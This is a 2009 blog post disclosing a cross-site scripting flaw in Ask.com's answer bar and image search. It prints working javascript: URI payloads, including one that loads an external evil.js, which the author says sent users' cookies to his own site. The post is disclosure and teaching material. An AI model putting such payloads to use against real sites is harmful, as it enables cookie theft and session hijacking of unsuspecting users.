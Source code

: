 ```yaml
---
date: '2009-03-04 14:30:42'
layout: post
slug: answer-bar-xss
status: publish
title: Ask.com Answer Bar XSS
wordpress_id: '126'
categories:
- Computers
---
```


Last month, [Ask.com](http://www.ask.com/) introduced a new feature called the answer bar. It's an annoying iframe that shows up when you click on most search results. The answer bar obscures the real URI in the address bar, and you have to accept cookies to disable it. But the purpose of this post isn't to vent; it's to explain how until today, the answer bar was vulnerable to cross-site scripting attacks. 

Search result links look like this: (the answer bar now checks referrers so even copy-pasting won't work)

`http://www.ask.com/bar?q=ask&page;=1&qsrc;=0&zoom;=&ab;=0&u;=http://google.com`

The URI param wasn't checked. Any URI scheme was allowed, including javascript: and data:. JavaScript in the URI was run in ask.com's security context. [This link worked until very recently.](http://www.ask.com/bar?q=ask&page=1&qsrc=0&zoom=&ab=0&u=javascript:document.write(%22%3Cscript%3Ealert(document.cookie)%3C/script%3E%22);) Once I knew I could run arbitrary JavaScript, I wrote a proof of concept.

For a demonstration, I asked some coworkers to make sure they were logged in to Ask.com, then click [here](http://tinyurl.com/cwd3uq). TinyURL redirects to...

`http://www.ask.com/bar?q=ask&page;=1&qsrc;=0&zoom;=&ab;=0&u;=javascript:document.write(%22%3Cscript%20src= \%22http://geoff.greer.fm/evil/evil.js?cachebuster=Math.random()\%22%3E%3C/script%3E%22);`

...which downloaded and ran [evil.js](/evil/evil.js). Evil.js sent ask.com cookies to my site, then added an item to the user's [MyStuff](http://mystuff.ask.com/) saved results. The MyStuff item linked to [everyone's cookie info](/evil/suckers.html).

It's a good thing Ask doesn't have any useful features, otherwise this vulnerability would be newsworthy. Instead it's just XSS practice for me and another security mistake by Ask. Ask deployed the answer bar on February 5th. E-mails were sent, tickets were filed, and it was fixed today, March 4th. Of course, that one bug is the [tip of the iceberg](http://www.xssed.com/search?key=ask.com). Thanks to [Paul](http://journal.paul.querna.org/) for pointing me to that site.

Edit: Image search still has this bug. 
Edit2: These links no longer work because Ask added HTTP referrer checks to image search. 

This will show your ask.com cookies:

[`http://images.ask.com/fr?q=blah&desturi;=javascript%3Adocument.write%28%22%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E%22%29&fm;=i`](http://images.ask.com/fr?q=blah&desturi=javascript%3Adocument.write%28%22%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E%22%29&fm=i)

And this will demonstrate evil.js if you are logged in to MyStuff:

[`http://images.ask.com/fr?q=blah&desturi;=javascript:document.write(%22%3Cscript%20src=\%22http://geoff.greer.fm/evil/evil.js?cachebuster=Math.random()\%22%3E%3C/script%3E%22);&fm;=i`](http://images.ask.com/fr?q=blah&desturi=javascript:document.write(%22%3Cscript%20src=\%22http://geoff.greer.fm/evil/evil.js?cachebuster=Math.random()\%22%3E%3C/script%3E%22);&fm=i)

If there is one thing you should learn from this, it is: **sanitize**.
